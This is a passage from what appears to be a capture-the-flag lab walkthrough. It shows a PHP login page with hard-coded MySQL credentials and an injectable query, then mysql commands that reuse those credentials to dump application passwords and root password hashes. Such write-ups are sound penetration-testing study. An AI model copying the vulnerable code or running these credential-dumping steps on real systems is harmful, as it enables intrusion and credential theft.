 ```sh
sh-3.00$ cat index.php
<?php
        mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
        //print "Connected to MySQL<br />";
        mysql_select_db("webapp");

        if ($_POST['uname'] != ""){
                $username = $_POST['uname'];
                $password = $_POST['psw'];
                $query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
                //print $query."<br>";
                $result = mysql_query($query);

                $row = mysql_fetch_array($result);
                //print "ID: ".$row['id']."<br />";
        }                                                                                                                                                                      

?>
```

It looks like the web application uses the username `john` and the password `hiroshima` to locally connect to MySQL. These credentials work:

```sh
sh-3.00$ mysql -ujohn -phiroshima -e "show databases;"
Database
mysql
test
webapp
```

After using this to find additional useful information, I came across the following:

```sh
sh-3.00$ mysql -ujohn -phiroshima -e "show databases; use webapp; select * from users;"
Database
mysql
test
webapp
id      username        password
1       admin   5afac8d85f
2       john    66lajGGbla
```

The credentials for john didn't seem to redirect to the web application (but they didn't lock me out at the login form either), perhaps something to do with privileges for that particular user. The credentials for admin did work.

I also found the following:

```sh
sh-3.00$ mysql -ujohn -phiroshima -e "use mysql; select * from user;"
Host    User    Password        Select_priv     Insert_priv     Update_priv     Delete_priv     Create_priv     Drop_priv       Reload_priv     Shutdown_priv   Process_priv  File_priv        Grant_priv      References_priv Index_priv      Alter_priv      Show_db_priv    Super_priv      Create_tmp_table_priv   Lock_tables_priv        Execute_priv  Repl_slave_priv  Repl_client_priv        ssl_type        ssl_cipher      x509_issuer     x509_subject    max_questions   max_updates     max_connections
localhost       root    5a6914ba69e02807        Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y     YY       Y       Y       Y                                       0       0       0
localhost.localdomain   root    5a6914ba69e02807        Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y       Y     YY       Y       Y       Y       Y                                       0       0       0
```